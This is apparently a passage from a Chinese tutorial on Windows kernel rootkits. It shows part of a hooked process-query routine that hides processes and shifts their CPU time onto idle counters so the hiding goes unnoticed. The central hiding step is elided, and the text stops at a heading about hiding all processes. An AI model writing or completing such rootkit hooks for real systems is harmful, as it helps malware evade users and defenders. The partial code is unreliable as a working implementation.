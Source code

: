 ```cpp
struct _SYSTEM_PROCESSES *curr = (struct _SYSTEM_PROCESSES *)SystemInformation;
struct _SYSTEM_PROCESSES *prev = NULL;

int iChanged = 0;

if( NT_SUCCESS( rc ) )
{
    if( 5 == SystemInformationClass )
    {
        while(curr)
		{
            ANSI_STRING process_name;//结构体中存储的数据为UnicodeString，需要转换为ANSI_STRING，方便后续进行修改
            RtlUnicodeStringToAnsiString( &process_name, &(curr->ProcessName), TRUE);
            if( (0 < process_name.Length) && (255 > process_name.Length) )
            {
                ......;//Hook实现;
            }
            else//当前进程为系统时间进程，需要对时间进行更新
            {
                curr->UserTime.QuadPart += m_UserTime.QuadPart;
                curr->KernelTime.QuadPart += m_KernelTime.QuadPart;
                m_UserTime.QuadPart = m_KernelTime.QuadPart = 0;
            }

            RtlFreeAnsiString(&process_name);//释放资源
            prev = curr;
            if(curr->NextEntryDelta) 
                ((char *)curr += curr->NextEntryDelta);
            else 
                curr = NULL;
        }
    }
	else if (8 == SystemInformationClass)//系统时间信息结构体，需要进行更新			
	{
		struct _SYSTEM_PROCESSOR_TIMES * times = (struct _SYSTEM_PROCESSOR_TIMES *)SystemInformation;
		times->IdleTime.QuadPart += m_UserTime.QuadPart + m_KernelTime.QuadPart;
     };
}
```



## Hooking函数实现示例

系统初始进程状况如下

![](http://ozhtfx691.bkt.clouddn.com//rootkit/proc/proc_rootkit_1.png)

### 隐藏所有进程
